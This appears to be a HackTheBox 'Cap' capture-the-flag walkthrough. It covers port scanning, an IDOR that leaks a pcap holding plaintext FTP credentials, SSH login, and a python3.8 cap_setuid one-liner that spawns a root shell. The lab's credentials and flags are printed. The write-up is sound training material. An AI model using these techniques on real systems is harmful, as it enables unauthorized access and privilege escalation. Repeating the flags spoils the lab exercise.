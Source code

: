 
<p align="center">
  <img src="./screenshots/cap_logo.png" alt="cap_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Cap Linux
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities; Privilege Escalation
- 💻 **Platform:** Linux

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Capabilities exploitation](#-capabilities-exploitation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{15782241f14c7bf2aa620b67fa9a4115}`  |
|   Root Flag   | `flag{fc5860b0afc49545302d736baf191603}`  |
|  Credentials  | `nathan:Buck3tH4TF0RM3!`                  |
|   Technique   | Capabilities-based Privilege Escalation   |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.245 cap.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services:

```bash

sudo nmap -sVC -p- -vv -T5 cap.htb -oN tcp_scan_cap

```

> Result:

```bash

21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn

```

> From the scan results I see three open ports:

- `21` - `ftp`
- `80` - `web`
- `22` - `ssh`

> Open the web application in the browser:

![net_dashboard](./screenshots/net_dashboard.png)

> I see a dashboard for managing network data for user `nathan`:

## 🚪 Entry Point

> I go to the `security snapshot` section:

![snapshot](./screenshots/snapshot.png)

> I see a panel from which I can download a ready `.pcap` file with captured traffic of user `nathan`:

![snapshot_pcap](./screenshots/snapshot_pcap.png)

> The file can be downloaded and opened in `wireshark` to analyze the intercepted traffic:

![pcap_2](./screenshots/pcap_2.png)

> There is no useful information in the intercepted traffic.

> The address of the current panel page from which I downloaded the `.pcap` file has the following url - `http://cap.htb/data/4`
> The `4` parameter clearly points to some scanning ID for the current user `nathan`.

![idor_url](./screenshots/idor_url.png)

> I try to access other scanning results by replacing the ID, for example, with `0`:

![idor_url_0](./screenshots/idor_url_0.png)

![pcap_0](./screenshots/pcap_0.png)

> This `.pcap` file already contains interesting information intercepted in the `ftp` protocol.
> I got the user credentials - `nathan`:`Buck3tH4TF0RM3!`

---

**Note:** This type of vulnerability is called `IDOR (Insecure Direct Object References)`. This is a vulnerability in which a hacker has the ability to access objects (files,
accounts, data, orders, etc.) by changing identifiers (ID) directly in requests without proper access rights verification. That is, the `IDOR` vulnerability itself is an
`insecure direct object reference`. If there is no authorization check on the server - that is, the server does not check whether this is my data, then I get access to someone else's
information. In this case, to someone else's traffic scanning file that contains sensitive data.

---

## 🔓 Initial Access

> I use the received credentials of the user `nathan` and try to log in via `ssh` to the system:

```bash

ssh nathan@cap.htb

```
> Result:

![nathan_ssh](./screenshots/nathan_ssh.png)

> I get first flag:

```bash

nathan@cap:~$ cat user.txt

15782241f14c7bf2aa620b67fa9a4115

nathan@cap:~$

```
> user flag - `15782241f14c7bf2aa620b67fa9a4115`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> Let's list the executable files for which `POSIX capabilities` are installed:

```bash

nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$

```
> Ok, I see the executable `python3.8` with `cap_setuid+eip` capabilities set. This is a potential vector for privilege escalation
> since such `cap_setuid` permission allows a local user to change the `UID` of the process and set it to, for example, `0` - that is, `root`.
> `Python3.8` is an interpreted language and setting such `capabilities` is a serious error for executables.

---
### 🔑 Capabilities exploitation

> Using this feature we simply call `setuid(0)` inside the python script and change our own `uid` to `0`:

```bash

/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

```
> Result:

```bash

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~#

```
> get root flag:

```bash

root@cap:~# cd /root
root@cap:/root# ls -lah
total 36K
drwx------  6 root root 4.0K Jul 13 12:06 .
drwxr-xr-x 20 root root 4.0K Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4.0K May 23  2021 .cache
drwxr-xr-x  3 root root 4.0K May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 13 17:37 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jul 13 12:06 root.txt
drwxr-xr-x  3 root root 4.0K May 23  2021 snap
root@cap:/root# cat root.txt
fc5860b0afc49545302d736baf191603
root@cap:/root#

```
> root flag - `fc5860b0afc49545302d736baf191603`

---
## 🧠 Conclusion

> During the machine walkthrough, the web vulnerability `IDOR` was detected in the control panel in the `security snapshot` section. By changing the scan ID from `4` to `0`, access was gained to
> someone else's `.pcap` scan file, in which the user credentials of `nathan` were found, allowing initial access to the system via `ssh`. After running `enumeration`, the executable file
> `python3.8` was found, for which insecure capabilities `cap_setuid` were set, allowing the current user's `uid` to be changed to `0`, thereby gaining access to the shell with `root` privileges.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
